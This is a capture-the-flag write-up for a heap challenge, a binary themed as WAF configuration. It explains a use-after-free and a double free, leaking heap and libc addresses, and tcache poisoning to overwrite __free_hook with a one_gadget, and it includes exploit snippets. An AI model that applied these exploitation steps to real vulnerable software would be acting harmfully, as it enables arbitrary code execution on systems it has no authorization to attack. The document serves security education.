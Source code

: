 This challenge is a heap challenge.
The binary is pretty big, so I will not provide the code.
The binary consists of 5 options:
```
Web Application Firewall Configuration.

1. Add new configuration.
2. Edit configuration.
3. Print configuration.
4. Remove last added configuration.
5. Print all configurations.
6. Exit

```

The add option will create a new configuration, which simply mallocs a configuration struct of size 0x18.
Then it asks the user for `id`, `size`, and a `setting` of size `size`, which it mallocs.
It doesn't initilize any mallocs.

the second option is an edit option, it prompts for `id`, and aloows the user to realloc and change the size+setting of the configuration.
There is an UAF bug here, since it doesn't checks if the struct is free

third option just prints info about a given config. the add option doesn't initilize chunks, so we can leak some heap/libc addresses.

fourth option basiclly just frees a configuration , and its setting. doesn't do any checks (besides idx limits), so a double free is possible.

My idea was pretty simple. I just started leaking data, and moved on from there.
leaking heap is pretty simple, we can just allocate any chunk , free it, and use the print option to print its data.
tcachebins contains `heap fd` in their chunk meta data, so its an easy leak.
```py
	add(1, 1, '1')
	remove()
	heap = print_conf(0)[0] - 0x280
```

Then, in order to leak libc, I used the same approach.
unsortedbins contains libc addresses in their chunk metadata, so we need to add one.
Tcache bins are limited to only 7 chunks, so we can free 7 chunks, then allocate a big chunk (we don't want it to be treated as fastbin), and it will be added to the unsorted bin.

```py
	for i in range(8): #fill tcache, to add a chunk to unsorted bins
		add(1, 0x100, 'a'*8)
	for i in range(8):
		remove()
	libc.address = u64(print_conf(idx)[1].ljust(8, b'\x00')) - 0x3ebca0
  ```
  now we have all the leaks we need. we'll be trying to get an arbitrary write primitive using our uafs.
  First of all , lets empty out all the bins to make everything nicer.
  
  ```py
  #empty out tcache
	add(1, 0x81, 'b'*10)
	for i in range(7):
		add(1, 0x100, 'a'*8) #this will sort one chunk to the smallbin

	add(1, 0x50, 'w' * 0x50)  #we get that smal bin chunk
  ```
  
  Now we will start to understand how we get arb-write primitive.
  first of all, lets trick libc, by allocating a chunk, freeing it into the tcache, and change its fd using the edit command.
  We will change `fd` to a chunk we control. libc will think that there is a free chunk there. then we can fully control its fd, and put it whereever we want to write to.

  ```py
  #trigger write after free, and trick libc to think there is a free list in heap+0xc00
	write_chunk = add(1, 0x50, 'k' * 0x50) 
	remove()
  ```
  this will make our bins look like this:
  
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/8cb07ebe-70b5-4a45-ae2f-a4a39e90c923)

  then, we'll use the edit, to trick malloc and add our fake fd:
  ```py
  edit(write_chunk, heap + 0xc00, 16, 'b' * 16)
  ```
  
  this will make the bins like this:
 
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/bd5a69be-12a6-452a-93f4-092f063ba8b4)
  
  as you can see, the address `0x1edbc00`, is linked to 2 different bins!

  now, we can use the add option, with size=0x18. this will first malloc a struct, and take the first chunk at 0x1edbbe0. 
  then it will do `malloc(0x18)`, which will return `0x1edbc00`, and will let us control it! remember that `0x1edbc00` is still in the 0x60 tcache bin.
  Now we can basiclly write our fake bk, which will be the address we want to write to. in our case we triggered the `__free_hook`:
  
  ```py
  add(1, 0x18, p64(libc.sym.__free_hook)) 
  ```
  now the bins will look like this:
  
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/44787cfc-72fe-497c-94b9-31eb43e92e2a)
  
  now we can just add anything we want of size 0x58, which will delete the head of the tcache bin, and will make it contains just our arbitrary address.
  And then , we can malloc, and get a chunk at this arbitrary address. tcache is pretty shit when it comes to security (it is created to make everything faster, which makes it lack security)
  so malloc doesn't even check if there is a valid chunk at this address, and just give us our arbitrary chunk. then we just write one_gadget address there and win.

  ```py
  
  add(1, 0x18, p64(libc.sym.__free_hook)) #fake_chunk->fd->libc.sym.__free_hook
	add(1, 0x58, 'AAAAAAAA') #remove fake_chunk from tcache
	add(1, 0x58,p64(libc.address + 0x4f432)) #get fake_chunk->fd, which is libc.sym.__free_hook
  ```
  
  then we can just free something, and it will call the `__free_hook`, which is our one_gadget.
  what a fun challenge!
  
  
  
  
  
